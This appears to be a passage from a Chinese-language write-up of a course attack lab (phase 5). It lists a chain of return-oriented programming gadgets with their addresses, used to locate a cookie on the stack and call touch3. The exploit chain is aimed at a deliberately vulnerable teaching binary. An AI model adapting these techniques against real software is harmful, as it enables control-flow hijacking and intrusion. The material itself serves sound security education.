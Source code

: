 根据提示，有一个 `gadget` 一定要用上

```assembly
 00000000004019d6 <add_xy>:
   4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
   4019da:       c3                      retq
```

地址为：`0x4019d6`

通过合适的赋值，这段代码就能实现 `%rsp` 加上段内偏移地址来确定 `cookie` 的位置

剩下部分流程与 `Phase 3` 一致，大体思路如下：

- 先取得栈顶指针的位置
- 取出存在栈中得偏移量的值
- 通过 `lea    (%rdi,%rsi,1),%rax` 得到 cookie 的地址
- 将 cookie 的地址传给 `%rdi`
- 调用 `touch 3`

由于 `gadget` 的限制，中间的细节需要很多尝试，尝试过程不再一一列举了，我们直接给出代码

```assembly
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret
```

